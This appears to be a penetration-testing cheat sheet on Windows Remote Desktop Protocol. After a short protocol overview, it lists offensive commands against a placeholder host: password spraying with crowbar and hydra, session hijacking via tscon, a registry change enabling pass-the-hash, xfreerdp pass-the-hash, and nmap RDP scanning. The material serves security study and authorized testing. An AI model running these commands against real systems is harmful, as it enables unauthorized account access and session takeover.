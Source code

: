 # RDP

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**Remote Desktop Protocol (RDP)**</mark> is a <mark style="color:purple;">**protocol**</mark> developed by **Microsoft** for remote access to a computer running the Windows OS. This protocol allows display and control commands to be transmitted via the **GUI** encrypted over **IP** networks. Works at <mark style="color:yellow;">**Application Layer**</mark> of **TCP/IP model**, typically using <mark style="color:yellow;">**TCP/3389 port.**</mark>  If **Network Address Translation (NAT)** is used on the route between client and server, as is often the case with Internet connections, the remote computer needs the public IP address to reach the server. It uses <mark style="color:yellow;">**TLS/SSL**</mark>.

## <mark style="color:yellow;">Connecting</mark>

### Rdesktop

```bash
rdesktop -u carni17 -p 'amogus' -d domain.kek 13.13.13.13
```

### Xfreerdp

```bash
xfreerdp /u:carni17 /p:amogus /v:13.13.13.13 /d:domain.kek /cert:ignore
# Connect with port-forwarding
xfreerdp /u:carni17 /p:amogus /v:localhost:3389 /d:domain.kek /cert:ignore
```

### Remmina (GUI)

```bash
reminna
```

## <mark style="color:yellow;">Password Spraying</mark>

### Crowbar

```bash
crowbar -b rdp -s 13.13.13.13/32 -U users.txt -c 'amogus'
```

### Hydra

```bash
hydra -L users.txt -p 'amogus' 13.13.13.13 rdp
```

## <mark style="color:yellow;">Session Hijacking</mark>

<mark style="color:orange;">**We need SYSTEM privileges**</mark> and use <mark style="color:green;">**tscon.exe**</mark> (allows to connect to another desktop session) [**\[LINK\]**](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tscon)

```powershell
tscon 13 /dest:CARN3
```

## <mark style="color:yellow;">Pass-The-Hash</mark>

By default, Windows has disabled <mark style="color:green;">**`Restricted Admin Mode`**</mark>, and we need to fix that by adding new registry key to <mark style="color:green;">**`DisableRestrictedAdmin`**</mark>

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

And then to use <mark style="color:green;">**xfreerdp**</mark> for Pass The Hash

```powershell
xfreerdp /v:13.13.13.13 /u:carni7 /pth:12379NSKDFKSJDF20931C031
```

## <mark style="color:yellow;">Tips2Hack</mark>

1. **Nmap RDP Scan**

```bash
nmap -sV -sC 13.13.13.13 -p3389 --script rdp*
```

2. **RDP Security Check** [**\[LINK\]**](https://github.com/CiscoCXSecurity/rdp-sec-check)

```bash
./rdp-sec-check.pl 13.13.13.13
```

3. Initiate an **RDP** Session via <mark style="color:green;">**xfreerdp**</mark> (or <mark style="color:green;">**Remmina**</mark> with GUI)

```bash
xfreerdp /u:carni17 /p:"amogus" /v:13.13.13.13 /cert:ignore /d:DOMAIN
```

***
